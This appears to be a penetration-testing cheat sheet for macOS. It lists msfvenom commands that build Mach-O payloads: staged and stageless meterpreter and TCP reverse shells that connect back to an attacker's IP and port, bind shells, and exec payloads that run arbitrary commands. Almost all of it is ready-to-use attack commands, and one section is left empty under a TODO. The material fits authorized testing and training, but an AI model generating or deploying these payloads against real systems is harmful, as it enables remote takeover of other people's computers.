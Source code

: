 # Macho Execution

## 01 - Generate Payloads

### 1.1 - Reverse Shells

Staged x86-64 (64-bit) reverse shell.

```
$ msfvenom -p osx/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f macho -o payload-x64
```

Stageless x86-64 (64-bit) reverse shell.

```
$ msfvenom -p osx/x64/shell_reverse_tcp lhost=<IP> lport=<PORT> -f macho -o shell_x64
```

Stageless x86_64 (64-bit) `meterpreter` reverse shell.

```
$ msfvenom -p osx/x64/meterpreter_reverse_http lhost=<IP> lport=<PORT> -f macho -o payload-x64

$ msfvenom -p osx/x64/meterpreter_reverse_https handlersslcert=<file.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f macho -o payload-x64
```

Stageless x86 (32-bit) reverse shell.

```
$ msfvenom -p osx/x86/shell_reverse_tcp lhost=<IP> lport=<PORT> -f macho -o shell_x86
```

### 1.2 - Bind Shells

Stageless x86-64 (64-bit) bind shell.

```
$ msfvenom -p osx/x64/shell_bind_tcp lport=<PORT> -f macho -o shell-x86-64
```

Staged x86-64 (64-bit) `meterpreter` bind shell.

```
$ msfvenom -p osx/x64/meterpreter/bind_tcp lport=<PORT> -f macho -o payload-x64
```

Stageless x86 (32-bit) bind shell.

```
$ msfvenom -p osx/x86/shell_bind_tcp lport=<PORT> -f macho -o shell-x86
```

TODO: Fill the missing info related stageless mac osx meterpreter bind shells

Staged x86 (32-bit) `meterpreter` bind shell.

```

```

### 1.3 - Executable Binary Payloads

#### 1.3.1 - Text-To-Speech OSX Exec Payload

```
$ msfvenom -p osx/x64/say text=<message> -f macho -o payload-x64
```

#### 1.3.2 - Execute OSX Exec Payload

```
$ msfvenom -p osx/x86/exec cmd="<commands>" -f macho -o payload-x86

$ msfvenom -p osx/x64/exec cmd="<commands>" -f macho -o payload-x64
```
